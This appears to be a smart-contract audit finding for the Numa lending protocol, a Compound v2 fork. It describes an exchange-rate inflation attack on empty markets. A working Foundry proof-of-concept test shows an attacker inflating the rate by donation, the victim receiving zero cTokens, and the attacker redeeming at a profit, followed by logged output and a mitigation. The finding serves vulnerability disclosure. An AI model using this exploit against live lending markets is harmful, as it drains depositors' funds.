 Cool Daffodil Cormorant

High

# INFLATION ATTACKS

### Summary

This vulnerability has existed in the Compound v2 code since its launch,
presenting itself when markets are launched with a collateral value in
place but no depositors or following markets becoming empty due to user
withdrawal post-launch.
This issue exploits a rounding error that is present in the [redeemFresh()](https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/lending/CToken.sol#L608)
function. 
More specifically:

```solidity
redeemTokens = div_(redeemAmountIn, exchangeRate);
```

This is achieved by donating a large amount of the underlying asset to
the market contract, manipulating the `exchangeRate`.


### Root Cause

_No response_

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

* Legitimate users to lose the majority of their deposits’ value due to reduced `cToken` issuance.
* The attacker to profit by redeeming their `cTokens` at an artificially high value, draining the protocol's reserves of the underlying asset.

### PoC

write this test in Lending.t.sol

```solidity
function test_exploit_exchange_rate_inflation() public {
        address attacker = userA;
        address legitimateUser = userB;

        deal(address(numa), attacker, 10_000_000e18);
        deal(address(numa), legitimateUser, 1_000_000e18);

        console.log("Initial exchange rate: ", cNuma.exchangeRateStored());
        console.log("Initial total supply: ", cNuma.totalSupply());

        // Attacker mints a small amount to initialize the market
        vm.startPrank(attacker);
        numa.approve(address(cNuma), type(uint256).max);
        cNuma.mint(4e8); // Small mint
        vm.stopPrank();

        console.log("Post-mint attacker cToken balance: ", cNuma.balanceOf(attacker));
        console.log("Post-mint total supply: ", cNuma.totalSupply());

        // Attacker donates a large amount to inflate the exchange rate
        vm.startPrank(attacker);
        numa.transfer(address(cNuma), 9_999_999e18);
        vm.stopPrank();

        console.log("After donation, cToken cash: ", cNuma.getCash());
        console.log("After donation, exchange rate: ", cNuma.exchangeRateStored());

        // Legitimate user attempts to mint tokens
        vm.startPrank(legitimateUser);
        numa.approve(address(cNuma), type(uint256).max);
        uint256 userMintAmount = 1_000_000e18;
        uint256 mintResult = cNuma.mint(userMintAmount);
        console.log("Legitimate user mint result: ", mintResult);
        vm.stopPrank();

        uint256 legitimateUserCTokenBalance = cNuma.balanceOf(legitimateUser);
        console.log("Legitimate user cToken balance: ", legitimateUserCTokenBalance);

        assertEq(legitimateUserCTokenBalance, 0, "Legitimate user should receive 0 cTokens due to inflation");

        console.log("Total supply after legitimate mint attempt: ", cNuma.totalSupply());
        // Attacker redeems at the inflated rate
        vm.startPrank(attacker);
        uint256 attackerInitialNumaBalance = numa.balanceOf(attacker);
        cNuma.redeem(1);
        uint256 attackerFinalNumaBalance = numa.balanceOf(attacker);
        vm.stopPrank();

        console.log("Attacker NUMA balance after redeem: ", attackerFinalNumaBalance);
        console.log("Total supply after redemption: ", cNuma.totalSupply());

        assertGt(
            attackerFinalNumaBalance,
            attackerInitialNumaBalance,
            "Attacker should gain a large profit from the inflation attack"
        );
    }
```

```solidity
[PASS] test_exploit_exchange_rate_inflation() (gas: 729663)
Logs:
  LENDING TEST
  price reth/numa 1000000000000000000
  Initial exchange rate:  200000000000000000000000000
  Initial total supply:  0
  Post-mint attacker cToken balance:  2
  Post-mint total supply:  2
  After donation, cToken cash:  9999999000000000400000000
  After donation, exchange rate:  4999999500000000200000000000000000000000000
  Legitimate user mint result:  0
  Legitimate user cToken balance:  0
  Total supply after legitimate mint attempt:  2
  redeem? 0
  Attacker NUMA balance after redeem:  5500000499999999800000000
  Total supply after redemption:  1
```

### Mitigation

It is recommended to ensure that markets are never empty by minting
small `cToken`  balances at the time of market creation,
preventing the rounding error being used maliciously. A possible approach
is following [UniswapV2 implementation](https://github.com/Uniswap/v2-core/blob/ee547b17853e71ed4e0101ccfd52e70d5acded58/contracts/UniswapV2Pair.sol#L121) that permanently locks the first
`MINIMUM_LIQUIDITY` tokens.
